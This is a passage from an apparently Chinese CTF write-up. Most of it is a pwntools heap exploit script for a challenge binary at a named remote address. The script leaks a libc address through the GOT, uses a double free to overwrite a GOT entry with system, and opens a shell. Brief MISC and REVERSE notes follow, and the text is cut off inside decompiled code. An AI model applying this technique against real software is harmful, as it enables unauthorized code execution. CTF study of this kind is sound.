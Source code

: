 ```python  
    p=process(binary)
else:
    p=remote("183.129.189.60",10008)
elf=ELF(binary)
#libc =ELF("libc.so")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
def add(size,content):
    p.recvuntil("choice:")
    p.sendline("1")
    p.recvuntil("house:\n")
    p.sendline(str(size))
    p.recvuntil("house:\n")
    p.send(content)
def show(index):
    p.recvuntil("choice:")
    p.sendline("3")
    p.recvuntil("index:")
    p.sendline(str(index))
def free(index):
    p.recvuntil("choice:")
    p.sendline("4")
    p.recvuntil("index:")
    p.sendline(str(index))

def exp():
    add(0x20,"aaaa") # 0
    add(0x20,"bbbb") # 1
    free(0)
    free(1)
    add(0x18,p64(elf.got['puts'])) # 2
    show(0)
    puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    libc_base = puts_addr - libc.sym['puts']
    system = libc_base + libc.sym['system']
    log.success("puts_addr==>" + hex(puts_addr))
    log.success("libc_base==>" + hex(libc_base))
    add(0x18,'fuck') # 3
    free(3)
    free(3)
    add(0x18,p64(0x602018)) # 4
    add(0x60,'/bin/sh\x00') # 5
    add(0x18,p64(system)) # 6
    free(5)
    
    p.interactive()
exp()
```  
# MISC  
## 签到  
别问我为什么只做了这一个，因为我看pwn去了，没有时间刚misc  
有一个1G的文件，下载慢出天际，么得办法提速，用curl下个头就行  
![](2.jpg)
# REVERSE  
结束后才问别的师傅搞出来的  
```C++  
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t i; // [esp+28h] [ebp-80h]
```